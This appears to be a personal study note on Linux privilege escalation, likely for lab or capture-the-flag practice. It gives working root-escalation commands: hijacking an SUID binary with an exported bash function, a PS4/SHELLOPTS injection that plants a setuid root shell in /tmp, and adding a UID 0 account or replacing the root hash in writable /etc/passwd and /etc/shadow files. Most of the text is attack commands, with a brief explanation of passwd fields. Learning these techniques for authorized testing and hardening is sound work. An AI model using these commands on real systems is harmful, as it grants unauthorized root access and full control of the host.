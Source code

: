 ### Known exploits 
Take a look at https://exploit-db.com or https://google.com ...

### Abusing shell features #1

***context :***
The executable is identical to `/usr/local/bin/suid-env` except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.  
```bash
/bin/bash --version 
```
- This works only if the version is under 4.2-048
```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```

### Abusing shell features #2
- Will not work on bash version 4.4 and above  
- Vulnerable when debugging bash is enabled  
```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env
/tmp/rootbash -p
```


### Writable /etc/passwd
If `/etc/passwd` is writable then you can add a user with root permissions
- Create a new password hash : 
```bash
openssl passwd -1 -salt [salt] [password]
```
or
```bash
openssl passwd [newpassword]
```

***Add the new line :***  
```test:x:0:0:root:/root:/bin/bash```  

***Username:*** It is used when user logs in. It should be between 1 and 32 characters in length. 
***Password:*** An x character indicates that encrypted password is stored in /etc/shadow file. sha512  otherwise, contains the cleatext password.
***User ID (UID):*** Each user must be assigned a user ID (UID).   
***UID 0*:** = root   
***UIDs 1-99:*** other predefined accounts.  
***UID 100-999:*** are reserved by system for administrative and system accounts/groups.  
***UID 1000+:*** users  
***Group ID (GID):*** The primary group ID (stored in /etc/group file)  
***User ID Info:*** extra information about the users.  
***Home directory:*** The absolute path to the directory the user will be in when they log in  
***Command/shell:*** The absolute path of a command or shell (/bin/bash). 

### Readable /etc/shadow :
Crack the hash with [[Hashcat]]: it's supposed to be **sha-512crypt**
### Writable /etc/shadow :

Create a new password : 
```bash
mkpasswd -m sha-512 newpasswordhere
```
Add/Update the new line
```
root:HASH_HERE:19396:0:99999:7:::
```
